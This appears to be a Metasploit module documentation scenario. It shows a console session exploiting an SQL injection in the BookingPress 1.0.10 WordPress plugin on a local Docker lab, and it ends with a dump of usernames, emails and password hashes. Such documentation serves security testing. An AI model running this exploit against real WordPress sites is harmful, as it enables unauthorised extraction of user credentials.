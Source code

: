 ### Booking Press 1.0.10, WordPress Latest Docker Image on Debian 11 (bullseye)
```
msf > use auxiliary/gather/wp_bookingpress_category_services_sqli
msf auxiliary(gather/wp_bookingpress_category_services_sqli) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf auxiliary(gather/wp_bookingpress_category_services_sqli) > set RPORT 8000
RPORT => 8000
msf auxiliary(gather/wp_bookingpress_category_services_sqli) > set TARGETURI "/?page_id=10"
TARGETURI => /?page_id=10
msf auxiliary(gather/wp_bookingpress_category_services_sqli) > show options

Module options (auxiliary/gather/wp_bookingpress_category_services_sqli):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8000             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /?page_id=10     yes       The URL of the BookingPress appointment booking page
   VHOST                       no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf auxiliary(gather/wp_bookingpress_category_services_sqli) > check
[+] 127.0.0.1:8000 - The target is vulnerable.
msf auxiliary(gather/wp_bookingpress_category_services_sqli) > exploit
[*] Running module against 127.0.0.1

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Extracting credential information
Wordpress User Credentials
==========================

 Username   Email                  Hash
 --------   -----                  ----
 normal     normal@test.com        $P$Bu9/XNK93oyUTKO.zJ9yGZfYAcbZg9.
 testAdmin  test@testfakeness.com  $P$BYWtZOfh8yqLCKA877hwBysqGdRtk/.

[*] Auxiliary module execution completed
msf auxiliary(gather/wp_bookingpress_category_services_sqli) >
```
